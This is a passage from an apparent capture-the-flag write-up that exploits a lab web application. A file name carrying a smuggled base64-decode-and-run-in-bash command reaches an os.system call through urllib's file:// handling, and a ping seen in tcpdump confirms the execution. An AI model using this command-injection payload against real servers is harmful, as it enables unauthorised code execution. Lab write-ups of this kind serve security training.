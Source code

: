 I was a bit confused by all the renaming, until I opened a Python terminal and
used `urllib.request.urlretrieve` myself:

    
    
    >>> local_filename, headers = urllib.request.urlretrieve('http://10.10.14.6/test.jpg')
    >>> local_filename
    '/tmp/tmpa7gaq4yh'
    

So it is stored in `/tmp`, and with no extension. That’s why the code is
adding `.jpg` to the end. However, there’s another kind of valid url, and this
time it preserves the filename:

    
    
    >>> local_filename, headers = urllib.request.urlretrieve('file:///home/oxdf/test.jpg')
    >>> local_filename
    '/home/oxdf/test.jpg'
    

So if I can have it point to an existing file, and that filename has command
injection in it, I should be able to get execution.

#### RCE POC

I’ll create a file with the following name:

    
    
    oxdf@parrot$ echo 'ping -c 1 10.10.14.6' | base64 
    cGluZyAtYyAxIDEwLjEwLjE0LjYK
    oxdf@parrot$ touch '0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;' 
    

I’ll upload this to Writer using the form, and I can see it on the server:

![image-20211201211453785](https://0xdfimages.gitlab.io/img/image-20211201211453785.png)

I’ll send the POST to repeater, and clear out the `image` section, and fill in
the `image_url` section:

![image-20211201211604634](https://0xdfimages.gitlab.io/img/image-20211201211604634.png)

When I send that, it will be passed to `urllib.request.urlretrieve`, which
will return `local_filename` of
`/var/www/writer.htb/writer/static../img/0xdf.jpg; echo
cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;`. The string that gets passed
into `os.system` will be:

    
    
    mv /var/www/writer.htb/writer/static../img/0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash; /var/www/writer.htb/writer/static/img/0xdf.jpg; echo cGluZyAtYyAxIDEwLjEwLjE0LjYK|base64 -d|bash;.jpg
    

When I send that, I get a ping:

    
    
    oxdf@parrot$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:07:15.179144 IP 10.10.11.101 > 10.10.14.6: ICMP echo request, id 6, seq 1, length 64
    21:07:15.179164 IP 10.10.14.6 > 10.10.11.101: ICMP echo reply, id 6, seq 1, length 64
    